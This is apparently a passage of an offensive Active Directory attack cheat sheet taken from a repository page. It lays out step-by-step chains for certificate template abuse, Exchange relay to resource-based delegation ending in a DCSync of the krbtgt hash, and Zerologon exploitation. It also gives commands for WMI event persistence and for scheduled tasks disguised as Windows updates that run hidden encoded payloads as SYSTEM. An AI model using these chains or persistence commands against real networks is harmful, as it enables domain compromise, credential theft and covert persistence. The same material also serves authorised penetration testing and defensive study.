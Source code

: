 ### **🔗 Chain 4: Certificate Template Abuse → Cross-Domain Attack**
1. `certipy find` → Identify vulnerable templates
2. `certipy req` → Request certificate as foreign principal
3. `certipy auth` → Authenticate in foreign domain
4. Cross-domain trust exploitation
5. Forest-wide compromise

### **🔗 Chain 5: Exchange → RBCD → Golden Ticket**
1. `PrivExchange.py` → Coerce Exchange authentication
2. `ntlmrelayx.py` → Relay to LDAP with --escalate-user
3. `addcomputer.py` → Add attacker-controlled machine
4. `rbcd.py` → Configure RBCD on domain controller
5. `getST.py` → Impersonate Administrator
6. `secretsdump.py` → DCSync krbtgt hash

### **🔗 Chain 6: Zerologon → ADCS → Persistence**
1. `zerologon_tester.py` → Test for Zerologon vulnerability
2. `cve-2020-1472-exploit.py` → Reset DC machine account
3. `secretsdump.py` → Extract all domain secrets
4. `certipy ca` → Abuse ADCS for persistence
5. `restorepassword.py` → Restore DC machine account (stealth)

---

## 🔮 **Advanced Persistence & Evasion**

### **🎭 Advanced Persistence Methods**

#### **WMI Event Subscriptions**
```powershell
# Create WMI persistence
$Query = "SELECT * FROM Win32_Process WHERE Name='notepad.exe'"
$Action = "powershell.exe -enc <base64_payload>"
Register-WmiEvent -Query $Query -Action { Start-Process $Action }

# Cleanup
Get-WmiObject -Class __EventFilter -Namespace root\subscription | Remove-WmiObject
```

#### **Scheduled Tasks Persistence**
```bash
# Linux - Impacket
atexec.py domain.com/user:pass@target 'schtasks /create /tn "UpdateTask" /tr "powershell -enc <payload>" /sc daily'

# Windows
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -w hidden -c <payload>" /sc onlogon /ru system
```
